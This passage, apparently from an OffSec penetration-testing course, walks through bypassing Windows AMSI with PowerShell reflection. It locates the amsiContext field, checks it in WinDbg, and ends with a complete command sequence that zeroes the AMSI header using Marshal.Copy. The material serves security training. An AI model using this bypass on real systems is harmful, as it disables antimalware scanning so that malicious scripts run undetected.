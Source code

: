 As we will soon realize, the _amsiContext_ field contains the unmanaged _amsiContext_ buffer. However, we can not reference the field directly since _amsiContext_ also contains a malicious "amsi" string. We'll again loop through all the fields, searching for a name containing "Context":

```
PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')

PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}

PS C:\Users\Offsec> $f.GetValue($null)
1514420113440
```

> Listing 34 - Finding the address of amsiContext through reflection

Although we managed to obtain the _amsiContext_ field without triggering AMSI, the output contains a very large integer. Converting this to hexadecimal produces _0x1609A791020_, which looks like a valid memory address.

To verify our theory that this is indeed the address of the _amsiContext_ buffer, we'll open and attach WinDbg and dump the memory at address _0x1609A791020_:

```
0:009> dc 0x1609A791020
00000160`9a791020  49534d41 00000000 806db190 00000160  AMSI......m.`...
00000160`9a791030  8086dd30 00000160 00000022 00000000  0...`...".......
00000160`9a791040  6372756f 00007365 cf43afd2 91000300  ources....C.....
00000160`9a791050  554c4c41 53524553 464f5250 3d454c49  ALLUSERSPROFILE=
00000160`9a791060  505c3a43 72676f72 61446d61 00006174  C:\ProgramData..
00000160`9a791070  00000000 00000000 cf5eafd1 80000400  ..........^.....
00000160`9a791080  00000000 00000000 9a791080 00000160  ..........y.`...
00000160`9a791090  00000000 00000000 80000000 00000000  ................
```

> Listing 35 - Verifying the address of amsiContext in WinDbg

The first four bytes at the dumped address contain the AMSI header values, indicating that this is very likely the _amsiContext_ buffer.

Now, let's put this all together. We'll recreate each of the steps and use _Copy_[7](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5178-7) to overwrite the _amsiContext_ header by copying data (four zeros) from managed to unmanaged memory:

```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes()

PS C:\Users\Offsec> Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}

PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')

PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}

PS C:\Users\Offsec> $g=$f.GetValue($null)

PS C:\Users\Offsec> [IntPtr]$ptr=$g

PS C:\Users\Offsec> [Int32[]]$buf=@(0)

PS C:\Users\Offsec> [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
